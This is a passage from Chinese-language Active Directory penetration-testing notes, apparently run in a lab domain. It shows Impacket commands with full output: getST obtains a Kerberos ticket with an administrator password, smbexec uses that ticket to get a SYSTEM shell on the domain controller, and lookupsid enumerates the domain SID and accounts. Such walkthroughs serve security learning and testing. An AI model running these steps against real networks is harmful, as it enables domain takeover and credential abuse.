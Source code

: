 注：如果密码包含@符号，只能选择手动输入，或者使用hash（已实验）

# 十、请求ST（getST）
```plain
C:\root> impacket-getST sec/administrator:"Az123456@" -dc-ip 192.168.30.2 -spn cifs/dc1.sec.com -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /root/miniconda3/lib/python3.12/site-packages/impacket
[+] Using Kerberos Cache: administrator.ccache
[+] SPN KRBTGT/SEC@SEC not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] No valid credentials found in cache
[+] Username retrieved from CCache: administrator
[*] Getting TGT for user
[+] Trying to connect to KDC at 192.168.30.2:88
[+] Trying to connect to KDC at 192.168.30.2:88
[+] TGT session key: 2a05c1f235ceec7195d8a868c84303fe703fb74b61579673f5decf5b42922d91
[*] Getting ST for user
[+] Trying to connect to KDC at 192.168.30.2:88
[*] Saving ticket in administrator@cifs_dc1.sec.com@SEC.COM.ccache

C:\root> export KRB5CCNAME=administrator@cifs_dc1.sec.com@SEC.COM.ccache

C:\root> impacket-smbexec -no-pass -k dc1.sec.com
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

注：这里使用的是getST自动帮我们先申请tgt，然后在申请st。如果已经有了TGT，可以直接-k -no-pass申请ST，无需输入密码。

# 十一、获取域SID
```plain
C:\root> impacket-lookupsid test1:"Az123456@"@192.168.30.2
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 192.168.30.2
[*] StringBinding ncacn_np:192.168.30.2[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1652425874-2692758975-732503029
498: SEC\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SEC\Administrator (SidTypeUser)
501: SEC\Guest (SidTypeUser)
502: SEC\krbtgt (SidTypeUser)
512: SEC\Domain Admins (SidTypeGroup)
513: SEC\Domain Users (SidTypeGroup)
514: SEC\Domain Guests (SidTypeGroup)
515: SEC\Domain Computers (SidTypeGroup)
516: SEC\Domain Controllers (SidTypeGroup)
517: SEC\Cert Publishers (SidTypeAlias)
518: SEC\Schema Admins (SidTypeGroup)
519: SEC\Enterprise Admins (SidTypeGroup)
520: SEC\Group Policy Creator Owners (SidTypeGroup)
521: SEC\Read-only Domain Controllers (SidTypeGroup)
522: SEC\Cloneable Domain Controllers (SidTypeGroup)
525: SEC\Protected Users (SidTypeGroup)
526: SEC\Key Admins (SidTypeGroup)
527: SEC\Enterprise Key Admins (SidTypeGroup)
553: SEC\RAS and IAS Servers (SidTypeAlias)
571: SEC\Allowed RODC Password Replication Group (SidTypeAlias)
```